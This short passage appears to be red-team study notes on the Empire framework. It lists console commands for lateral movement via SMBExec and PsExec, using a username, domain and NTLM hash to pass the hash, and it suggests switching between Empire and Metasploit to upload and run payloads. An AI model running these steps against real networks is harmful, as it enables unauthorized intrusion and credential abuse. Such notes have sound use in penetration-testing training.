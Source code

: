 #### Lateral Movement

Move from one PC to another in the network.

Found in `powershell/lateral_movement/`

```bash
# Executes a stager on remote hosts using SMBExec.ps1
usemodule powershell/lateral_movement/invoke_smbexec
set ComputerName Client251
set Listener http1
set Username jeff_admin
set Domain corp.com
set Hash 2892d26cdf84d7a70e2eb3b9f05c425e

usemodule powershell/lateral_movement/invoke_psexec
set ComputerName Client251
```

### Switching Between Empire and MSF

Because each tool has its own strengths, be sure to utilize the tools to get a foothold with the opposite tool, uploading payloads and executing them.